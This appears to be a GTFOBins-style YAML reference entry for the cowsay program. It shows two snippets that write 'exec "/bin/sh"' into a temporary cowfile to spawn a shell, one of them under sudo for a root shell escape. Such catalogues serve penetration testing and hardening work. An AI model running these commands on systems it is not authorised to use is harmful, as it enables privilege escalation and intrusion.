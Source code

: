 functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowsay -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowsay -f $TF x
---
